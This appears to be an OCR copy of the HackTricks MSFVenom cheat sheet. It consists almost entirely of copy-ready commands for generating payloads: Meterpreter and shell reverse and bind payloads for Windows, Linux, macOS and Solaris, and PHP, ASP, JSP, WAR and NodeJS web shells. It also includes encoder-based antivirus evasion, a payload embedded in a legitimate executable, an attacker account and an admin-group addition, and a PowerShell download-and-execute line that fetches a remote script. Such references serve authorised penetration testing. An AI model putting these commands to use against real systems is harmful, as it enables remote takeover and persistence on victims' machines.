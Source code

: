 _source: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom#listing_

**MSFVenom - CheatSheet**
<pre>msfvenom -p (PAYLOAD) -e (ENCODER) -f (FORMAT) -i (ENCODE COUNT) LHOST=(IP) </pre>
One can also use the -a to specify the architecture or the --platform

**Listing**
<pre>msfvenom -l #Payloads</pre>
<pre>msfvenom -l encoders #Encoders </pre>

**Common params when creating a shellcode**
<pre> -b "\x00\x0a\x0d" </pre>
<pre> -f c </pre>
<pre> -e x86/shikata_ga_nai -i 5 </pre>
<pre>EXITFUNC=thread </pre>
<pre> PrependSetuid=True #Use this to create a shellcode that will execute something with SUID </pre>


**Windows**
---
**Reverse Shell**
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe </pre>
**Bind Shell**
<pre>msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe </pre>
**Create User**
<pre>msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe </pre>
**CMD Shell**
<pre> msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe </pre>
**Execute Command**
<pre> msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe </pre>
<pre>msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe </pre>
**Encoder**
<pre>msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe </pre>
**Embedded inside executable**
<pre>msfvenom -p windows/shell_reverse_tcp LHOST=(IP) LPORT=(PORT) -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe </pre>

**Linux Payloads**
---
**Reverse Shell**
<pre>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf </pre>
<pre>msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf </pre>
**Bind Shell**
<pre>msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf </pre>
**SunOS (Solaris)**
<pre>msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf </pre>

**MAC Payloads**
---
**Reverse Shell**
<pre>msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho </pre>
**Bind Shell**
<pre>msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho </pre>

**Web Based Payloads**
---
**PHP Reverse Shell**
<pre>msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php </pre>
<pre>cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php </pre>

**ASP/x Reverse Shell**
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp</pre>
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx </pre>

**JSP Reverse Shell**
<pre>msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp </pre>
**WAR Reverse Shell**
<pre>msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war </pre>
**NodeJS Reverse Shell**
<pre>msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) </pre>
**Script Language payloads**
---
**Perl**
<pre>msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl </pre>
**Python**
<pre>msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py </pre>
**Bash**
<pre>msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh </pre>
